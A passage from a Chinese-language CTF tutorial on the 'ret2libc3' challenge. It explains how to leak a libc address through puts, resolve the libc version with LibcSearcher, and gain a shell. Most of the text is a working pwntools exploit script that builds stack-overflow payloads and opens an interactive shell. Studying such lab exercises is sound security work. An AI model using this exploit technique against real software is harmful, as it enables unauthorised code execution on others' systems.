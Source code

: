 与前两个程序溢出点一致，但没了 system 和 /bin/sh, 不过可以输出函数puts泄露出got表中某个函数的地址，然后通过`LibcSearcher`获取相应版本来拿到shell，当然本地也可以通过`ldd`查看程序的动态连接库，然后根据libc获取shell

![Alt](img/wiki-BasicRop8.png)

基本利用思路如下：

- 泄露 got表中函数的地址
- 获取 libc 版本
- 获取 system 地址与 /bin/sh 的地址
- 再次执行源程序
- 触发栈溢出执行 system(‘/bin/sh’)

```python
    from pwn import *
    from LibcSearcher import *

    p = process('./ret2libc3')
    # lib = ELF('/lib/i386-linux-gnu/libc.so.6')
    # system_offset = lib.sym['system']
    # binsh_offset = next(lib.search('/bin/sh'))
    # puts_offset = lib.sym['puts']
    # log.info('system_offset = %#x, binsh_offset = %#x, puts_offset = %#x'%(system_offset,binsh_offset,puts_offset))

    elf = ELF('./ret2libc3')
    puts_plt = elf.sym['puts']
    puts_got = elf.got['puts']
    payload = flat(['A'*(0x6c+4), puts_plt, 0x080484D0, puts_got])
    p.sendlineafter('Can you find it !?', payload)
    sleep(0.1)
    puts_addr = u32(p.recv(4))
    log.info('puts_addr = %#x',puts_addr)

    libc = LibcSearcher('puts',puts_addr)
    libc_base = puts_addr - libc.dump('puts')
    system_addr = libc_base + libc.dump('system')
    binsh_addr = libc_base + libc.dump('str_bin_sh')
    # system_addr = puts_addr - (puts_offset - system_offset)
    # binsh_addr = puts_addr - (puts_offset - binsh_offset)
    log.info('system_addr = %#x, binsh_addr = %#x'%(system_addr,binsh_addr))

    payload = flat(['A'*(0x6c+4), system_addr, 0x080484d0, binsh_addr])
    p.sendline(payload)
    sleep(1)
    p.interactive()
```
